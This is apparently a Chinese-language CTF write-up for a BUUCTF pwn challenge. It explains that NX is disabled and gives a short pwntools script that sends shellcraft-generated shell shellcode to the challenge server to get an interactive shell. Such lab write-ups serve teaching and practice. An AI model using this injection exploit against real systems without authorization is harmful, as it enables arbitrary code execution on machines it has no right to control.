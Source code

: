 ### Shellcode 注入

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67b4262dd0e0a243d4006f2e.png)

先 checksec

![](https://pic1.imgdb.cn/item/67b426a2d0e0a243d4006f43.png)

无法反编译为伪代码，分析汇编

![](https://pic1.imgdb.cn/item/67b4265dd0e0a243d4006f33.png)

因为没开 NX ，所以可以直接注入 shellcode 执行任意代码

```python
from pwn import *

p = remote("node5.buuoj.cn",25019)

context(arch = 'amd64', os = 'linux')
elf = ELF('./mrctf2020_shellcode')

shellcode = asm(shellcraft.sh())

p.sendline(shellcode)
p.interactive()
```

成功拿到 flag

![](https://pic1.imgdb.cn/item/67b42715d0e0a243d4006f5d.png)